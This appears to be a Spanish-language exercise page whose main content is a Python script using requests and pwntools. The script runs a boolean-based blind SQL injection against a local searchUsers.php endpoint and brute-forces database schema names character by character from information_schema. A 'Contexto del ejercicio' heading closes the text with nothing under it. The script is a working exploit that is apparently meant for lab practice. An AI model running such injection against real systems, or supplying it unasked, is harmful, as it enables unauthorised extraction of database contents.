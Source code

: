 
## Script base de datos

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)

    for position in range(1, 100):
        for character in range(33,126):
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)

            r = requests.get(sqli_url)
            
            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```
## Contexto del ejercicio
